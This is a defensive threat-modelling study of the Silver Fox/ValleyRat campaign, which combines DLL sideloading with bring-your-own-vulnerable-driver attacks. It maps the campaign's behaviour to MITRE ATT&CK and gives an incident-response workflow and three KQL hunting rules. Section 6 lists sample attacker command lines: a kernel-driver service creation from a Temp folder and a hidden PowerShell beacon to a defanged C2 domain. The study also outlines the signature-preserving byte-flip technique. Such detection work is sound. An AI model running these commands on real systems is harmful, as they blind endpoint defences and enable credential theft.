

# Silver Fox / ValleyRat BYOVD & DLL Sideloading Attack (2024–2025)  
### Behavioural Threat Modelling • Patch-Resistant Initial Access • Core Hunt Framework  
Author: Ala Dabat  
Version: 2025-12  
Repository: Threat Modelling SOP (Behavioural, Patch-Resistant TTPs)

> [!NOTE]  
> This study demonstrates how atomic detections should form the basis of advanced detection rules. See the final SilverFox_ValleyRat_Full_KillChain_Advanced rule. Unlike atomic detections that alert on single events (e.g., "Malicious File Detected"), The signal logic in this document uses compact rule logic while your goal should be to implement a Risk-Based Alerting (RBA) framework. It correlates weak signals across several distinct stages of the attack lifecycle into a single, high-fidelity narrative.

---

# 1. Overview

Silver Fox (also tracked as *ValleyRat* or *SilverCat*) is a long-running espionage-focused threat cluster active across 2024–2025.  
Unlike smash-and-grab ransomware operators, Silver Fox invests in:

- **Stealthy initial access** via SEO poisoning and fake installers  
- **Persistence and anti-forensics**  
- **Kernel-level EDR evasion using BYOVD tactics**  
- **DLL sideloading chains using trusted signed binaries**  

The group’s distinctive hallmark is a **two-stage evasion mechanism**:

1. **DLL Sideloading**  
   A legitimate signed binary is used to load an untrusted or malicious DLL placed alongside it.  
   This achieves stealthy user-mode execution before any kernel-level activity begins.

2. **BYOVD (Bring-Your-Own-Vulnerable-Driver)**  
   The loader drops a vulnerable signed driver (e.g., *amsdk.sys*), flips a non-authenticated byte in its PE header, and loads it via `sc create` to obtain kernel-mode privileges.  
   The flipped byte changes the file hash but maintains a **valid digital signature** — defeating hash-based controls.

Once active, the driver disables endpoint defenses (Sense, Defender, EDR sensors) and protects the ValleyRat payload while exfiltrating credentials or sensitive data.

This study documents Silver Fox from an **offensive perspective**, correlates its behaviours to MITRE ATT&CK, and provides **patch-resistant behavioural hunts** suitable for detection engineering and L3 threat hunting.

---

# 2. Attack Chain (Offensive Perspective)

The chain below reflects the precise sequence Silver Fox uses to reach kernel-level execution while avoiding static detection logic.



---

# 3. Byte-Flipping vs. Polymorphism  
### Why Silver Fox Defeats Hash-Based IOC Detection

Silver Fox implements a subtle but highly effective signature-preserving mutation technique.

| Feature | Polymorphic Malware | **Silver Fox (Byte-Flipping)** |
|--------|----------------------|-------------------------------|
| Goal | Evade static AV signatures | Evade hash blocklists **while keeping driver signature valid** |
| Method | Mutate/obfuscate entire program | Flip a single non-authenticated byte (typically PE timestamp) |
| Hash | Changes | Changes |
| Signature | Invalidated | **Still valid** |
| Why Hash-IOC Fails | Too many variants | Every dropped driver has unique hash while remaining trusted by OS |
| Required Defence | Entropy/heuristic analysis | **Behavioural detection only** (Drop → CreateService → LoadDriver) |

This is why **file-based IOCs and VT lookups are ineffective**.  
Detection must rely on **behavioural correlation**, not static signatures.

---

# 4. MITRE ATT&CK Mapping

| Stage | Tactic | Technique | Behaviour |
|-------|--------|-----------|-----------|
| Initial Access | Initial Access | **T1189 (Drive-By / Download)** | SEO poisoning → fake installers (WeChat, Zoom, Teams) |
| Execution | Defense Evasion | **T1574.002 (DLL Sideloading)** | Legit binary loads malicious DLL in non-standard directory |
| Privilege Escalation | PrivEsc | **T1068 (Exploit Local PrivEsc via Driver)** | Vulnerable driver grants kernel R/W |
| Defense Evasion | Disable Security | **T1562.001** | Driver terminates Defender/Sense processes |
| Persistence | Create Service | **T1543.003** | `sc create name=... type= kernel binPath= C:\Users\*\Temp\*.sys` |
| Defense Evasion | Signed Binary Proxy Execution | **T1218** | Trusted signed binary abused as loader |
| Defense Evasion | BYOVD | **T1547.006** (custom threat model extension) | Attacker-supplied signed driver loaded |
| Command & Control | Exfiltration | **T1071 (Web Protocols)** | HTTP/S C2 — typical China-nexus infra |

---

# 5. Behavioural IOCs (High-Fidelity)

These indicators are stable across variants, including byte-flipped drivers.

## A. Parent/Child Process Anomalies

| Parent Process | Child Process | Why Suspicious |
|----------------|--------------|----------------|
| `update.exe` (fake installer) | `FoxitReader.exe` / renamed binary | Trojanized installers mimic legitimate apps |
| Signed loader EXE | Untrusted DLL | DLL sideloading into non-standard directory |
| ValleyRat loader | `sc.exe` | Service creation for attacker-supplied driver |
| Any user-mode binary | `.sys` driver load | Drivers should never load from Temp/Users |

---

## B. File Access Patterns

| Indicator | Description |
|----------|-------------|
| `.sys` file dropped into `%TEMP%`, `%ProgramData%`, `%Users%\Public` | 99% malicious for drivers |
| DLLs loaded from odd paths (`AppData\Local`) | Classic sideloading |
| Legit signed binary run from user directories | Clear sideloading precursor |

---

## C. Network Indicators

| Behaviour | Why It Matters |
|-----------|----------------|
| First outbound C2 from sideloaded binary | Unusual traffic source |
| C2 IPs are China-nexus, rapidly rotating | Matches ValleyRat infrastructure |
| Low-volume HTTPS POST every 30–90s | RAT beacon profile |

---

# 6. Malicious Command-Line Examples (Realistic 2024–2025 Samples)

### DLL Sideloading Execution
```
C:\Users\Bob\Downloads\WeChat_Setup.exe   // legitimate binary
C:\Users\Bob\Downloads\msimg32.dll       // malicious sideloading DLL
```

### Driver Drop
```
echo "" > C:\Users\Bob\AppData\Local\Temp\amsdk.sys
```

### Service Creation (Kernel Driver)
```
sc create AMService binPath= "C:\Users\Bob\AppData\Local\Temp\amsdk.sys" type= kernel start= auto
sc start AMService
```

### C2 Behaviour
```
powershell.exe -nop -w hidden -c "Invoke-RestMethod https://cdn-updates-global[.]com/api/v1/"
```

---

# 7. Full Attack Chain Diagram (ASCII)

```

                           [ USER ACTION ]
                       Downloads Fake Installer
                                |
                                v
           +------------------------------------------------+
           | Legitimate Signed Binary (Trojanized Installer) |
           +------------------------------------------------+
                                |
                         DLL Sideloading
                                |
                                v
                   [ Malicious Loader (User Mode) ]
                                |
                                v
               Drops Vulnerable Driver (.sys) into Temp
                                |
                        Byte-Flipping Mutation
                                |
                                v
       +-------------------------------------------------------+
       | sc.exe create name=... binPath= C:\Users\*\Temp\*.sys |
       +-------------------------------------------------------+
                                |
                                v
                      Driver Loaded into Kernel
                                |
                   Blinds EDR / Terminates AV Sensors
                                |
                                v
                   ValleyRat Payload Protected in Memory
                                |
                                v
                     HTTPS C2 → Credential / Data Theft
```

---

# 8. Incident Response Workflow (Aligned to SOP)

## **Step 1 — Identify**
- Confirm sequence:  
  **Sideloaded Binary → Suspicious DLL → Driver Drop → Service Create → Driver Load**  
- Retrieve `.sys` file for signature validation  
- Check driver load event in DeviceProcessEvents / MDE Timeline  

## **Step 2 — Contain**
- Immediately **Isolate Device** (critical for BYOVD)  
- Block service name, domain, and IPs  
- Disable compromised accounts  

## **Step 3 — Investigate**
- Map full process lineage  
- Review DownloadHistory + BrowserEvents for SEO poisoning  
- Inspect sideloaded directory for renamed binaries  

## **Step 4 — Eradicate**
- Remove driver service  
- Delete sideloaded DLL  
- Reset permissions on affected directories  
- Clean persistence (Run keys, Scheduled Tasks)  

## **Step 5 — Recover**
- Rebuild machine if kernel tampering confirmed  
- Reset credentials for affected users  

## **Step 6 — Lessons Learned**
- Enforce application control (WDAC)  
- Block installer execution from %Users% paths  
- Improve driver loading restrictions  
- Monitor for unsigned/unknown driver hashes despite valid signatures  

---

# 9. Detection Rules (Three Levels)

Below are the refined Silver Fox detection rules — compliant with stable telemetry, Gemini-friendly syntax, and your established rule style.

---

## **Rule 1 — Strict Core Hunt (Raw IOC Pattern)**
### Goal: Detect driver service creation pointing to suspicious paths.

```kusto
// STRICT CORE: Suspicious Kernel Driver Service Creation
DeviceProcessEvents
| where Timestamp > ago(24h)
| where FileName =~ "sc.exe"
| where ProcessCommandLine has "create"
| where ProcessCommandLine has ".sys"
| where ProcessCommandLine has_any ("\\Temp\\", "\\Users\\Public\\", "\\ProgramData\\", "\\AppData\\")
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

**Purpose:**  
High-noise but catches the most blatant BYOVD activity.

---

## **Rule 2 — Core+ (Drop → Load Correlated Sequence)**
### Goal: Detect the behavioural chain: *driver dropped → service created → driver loaded*.

```kusto
// CORE+: Silver Fox Drop-and-Load Sequence
let Lookback = 2h;

// 1. Driver drops into suspicious directories
let DriverDrops =
DeviceFileEvents
| where Timestamp > ago(Lookback)
| where FileName endswith ".sys"
| where FolderPath has_any ("\\Temp\\", "\\Users\\", "\\ProgramData\\")
| project DeviceId, DropTime=Timestamp, DriverName=FileName, DriverPath=FolderPath, Dropper=InitiatingProcessFileName;

// 2. Service creation referencing the same driver
let DriverLoads =
DeviceProcessEvents
| where Timestamp > ago(Lookback)
| where FileName =~ "sc.exe"
| where ProcessCommandLine has "create"
| where ProcessCommandLine has ".sys"
| project DeviceId, LoadTime=Timestamp, LoaderCmd=ProcessCommandLine;

// 3. Correlate drop → load
DriverDrops
| join kind=inner DriverLoads on DeviceId
| where LoaderCmd has DriverName
| where LoadTime between (DropTime .. DropTime + 10m)
| project DeviceId, DropTime, LoadTime, DriverName, Dropper, LoaderCmd
| order by LoadTime desc
```

**Purpose:**  
Reduces noise — only returns when the same dropped driver is subsequently loaded.

---

## **Rule 3 — Advanced Detection Engineering Hunt (Full Kill-Chain + Risk Scoring)**

```kusto
// ADVANCED HUNT: Silver Fox BYOVD + DLL Sideloading Kill-Chain
let Lookback = 24h;

// 1. DLL sideloading precursors
let SideloadEvents =
DeviceImageLoadEvents
| where Timestamp > ago(Lookback)
| where FolderPath has_any ("\\Users\\", "\\ProgramData\\", "\\Temp\\")
| where not(FolderPath has_any ("\\Windows\\", "\\Microsoft\\"))
| where InitiatingProcessSignatureStatus == "Valid"
| extend SideloadRisk = 10
| project DeviceId, SideloadTime=Timestamp, LoaderName=InitiatingProcessFileName, LoadedDll=FileName, SideloadRisk;

// 2. Driver drops
let DriverDrops =
DeviceFileEvents
| where Timestamp > ago(Lookback)
| where FileName endswith ".sys"
| where FolderPath has_any ("\\Users\\", "\\ProgramData\\", "\\Temp\\")
| extend DropRisk = 20
| project DeviceId, DropTime=Timestamp, DriverFile=FileName, Dropper=InitiatingProcessFileName, DropRisk;

// 3. Kernel service creation
let DriverLoadCmds =
DeviceProcessEvents
| where Timestamp > ago(Lookback)
| where FileName =~ "sc.exe"
| where ProcessCommandLine has "create"
| where ProcessCommandLine has ".sys"
| extend LoadRisk = 30
| project DeviceId, LoadTime=Timestamp, ServiceCmd=ProcessCommandLine, LoadRisk;

// 4. Correlate → Sideload → Drop → Load
SideloadEvents
| join kind=leftouter DriverDrops on DeviceId
| join kind=inner DriverLoadCmds on DeviceId
| where DropTime between (SideloadTime .. SideloadTime + 30m)
| where LoadTime between (DropTime .. DropTime + 10m)

// 5. Final scoring
| extend TotalRiskScore = SideloadRisk + DropRisk + LoadRisk
| extend HunterDirective = case(
    TotalRiskScore >= 50,
        "CRITICAL: Full Silver Fox BYOVD chain detected — isolate host immediately. Retrieve driver, validate signature, investigate sideloading origin.",
    TotalRiskScore >= 30,
        "HIGH: BYOVD behaviour detected — validate driver signature and confirm whether sideloading initiated the sequence.",
        "MEDIUM: Suspicious driver activity — review process lineage."
)
| project Timestamp=LoadTime, DeviceId, LoaderName, LoadedDll, DriverFile, ServiceCmd, TotalRiskScore, HunterDirective
| order by TotalRiskScore desc
```

---

# 10. Validation & Testing Matrix

| Attack Vector | Simulated Action | Rule Trigger | Expected Interpretation |
|---------------|------------------|--------------|-------------------------|
| Sideloading Only | Rename app + drop DLL | Not triggered | Benign precursor |
| Driver Drop Only | Drop `.sys` into Temp | Rule 1? No | Low-fidelity indicator |
| Service Create Only | `sc create Bad binPath=Temp\bad.sys` | **Rule 1** | High-fidelity IOC |
| Full Chain (Sideload → Drop → Load) | Full simulation | **Rule 3** | CRITICAL — isolate host |
| Byte-Flipped Variant | Driver with mutated timestamp | **Rule 3** | Detected behaviourally |

---

# End of SilverFox-BYOVD Study  
